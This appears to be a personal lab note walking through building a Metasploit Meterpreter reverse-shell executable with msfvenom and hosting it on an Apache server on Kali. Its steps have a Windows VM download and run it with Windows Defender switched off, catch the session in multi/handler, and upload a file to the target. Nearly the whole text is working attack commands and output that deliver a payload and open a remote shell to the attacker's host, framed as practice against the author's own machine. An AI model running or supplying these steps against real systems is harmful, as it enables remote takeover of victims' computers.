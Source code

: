 ## shortcut on creating revershell with meterpreter/msf work in progress##

##launch terminal##
# run the following to escalate to root#
~$ sudo su

# run the following to create msfvenom reverse shell payload *.exe and place it into your webserver directory #
┌──(root💀kali )-[/g]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kaliip> -f exe > /var/www/html/fun.exe  


# the wares have been created run the following to start the appache webserver #
┌──(root💀kali )-[/g]
└─# service apache2 start


##### Go to Windows machine ######

### Turn off Windows defender, allow the virus to come thru because it will be detected##

 # Launch browser in windows. download and run executable msfvenom created #
open http://kaliipaddress/fun.exe 

# windows target is ready for expoiting and post exploitation ##

# Launch metasploit #

┌──(root💀kali)-[/g]
└─# msfconsole  


## run the following in metasploit, throw in an options or help command here and there ##
> msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
> msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
> msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
> msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Sending stage (175174 bytes) to <windowsip>
[*] Meterpreter session 1 opened (<kaliip>:4444 -> <windowsip>:2352 ) at 2022-02-28 00:55:06 -0500

# you have now spawned reverse shell with meterpreter # 

> meterpreter > sysinfo
Computer        : DESKTOP-WINDERS10
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

# open another terminal create a readme.txt to upload to windows computer in meterpreter #

┌──(root💀kali)-[/g]
└─# nano readme.txt  <-- paste in the msfbanner that launched at the beginning, (I used a cow and ninja)

# Go back to meterpreter #

> meterpreter > upload readme.txt
[*] uploading  : /g/readme.txt -> readme.txt
[*] Uploaded 1.39 KiB of 1.39 KiB (100.0%): /g/readme.txt -> readme.txt
[*] uploaded   : /g/readme.txt -> readme.txt
meterpreter > ls
> Listing: C:\Users\Gregster\Downloads

## vefify that the file is there list and then look at it in windows machine, change directories in meterpreter, stop apache2 call it a night tbc... #

┌──(root💀kali)-[/g]
└─# systemctl stop apache2  

┌──(root💀kali)-[/g]
└─# nmap -p80 localhost          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 01:40 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000086s latency).
Other addresses for localhost (not scanned): ::1

PORT   STATE  SERVICE
80/tcp closed http

# meterpreter
Metasploit/Meterpreter reverse shell from Kali to Windows VM
